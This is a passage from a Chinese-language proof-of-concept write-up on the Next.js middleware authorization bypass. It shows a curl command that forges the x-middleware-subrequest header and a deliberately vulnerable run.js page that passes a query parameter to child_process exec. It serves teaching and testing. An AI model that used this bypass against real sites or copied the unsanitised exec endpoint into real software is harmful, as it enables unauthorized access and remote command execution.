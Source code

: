 如果有抓到 x-middleware-subrequest 則通行請求；否則拒絕授權請求。最後設定要經過protect的請求要先被中介層攔截。

#### 為什麼是 **x-middleware-subrequest**？  
因為這個標頭是 Next.js 自己「內部」產生的，一般的用戶端並不會產生。

Next.js 在處理以下「內部子請求」時會自動才加上這個標頭，又因為這些請求其實是來自 Next.js 自己的核心模組，所以 Next.js 預設信任這個標頭，漏洞也因此產生。

那既然我們知道他會依有無這個Header進行判斷，那就在curl時加上這個Header即可bypass

```bash!
curl http://localhost:3000/protected/run?cmd=calc -H "X-Middleware-Subrequest: 1"
```

#### 為什麼是/protected？

1. 更貼近「實務部署中的半公開資源」
2. 在滲透測試中較易誘導開發者疏忽
3. 可用性與示範性強

本次 PoC 將漏洞入口放置於 `/protected/`，模擬現實系統中將內部功能藏於「看似有授權但實際驗證不足」的路徑下。
相較於高敏感度 `/admin/`，此類路徑往往因為開發者認為「不容易猜中」而疏於設防，是授權繞過的熱門目標。

#### 為什麼不選admin

因為一看就是敏感資源，通常防禦最嚴（多層保護、非公開、二次驗證、IP 限制）

### 建立 run.js

新建 `run.js` 於 `pages/protested/`，模擬了真實系統中「僅供內部或管理員操作的命令執行功能」，

```js=
import { exec } from 'child_process'

export async function getServerSideProps({ query }) {
  const cmd = query.cmd || 'calc'
  exec(cmd, (err) => {
    if (err) console.error("執行失敗：", err.message)
  })

  return { props: { cmd } }
}

export default function Run({ cmd }) {
  return (
    <div>
      ✅ 已執行指令：<b>{cmd}</b>
    </div>
  )
}

```

### 啟動 server 並執行payload

#### 啟動 server
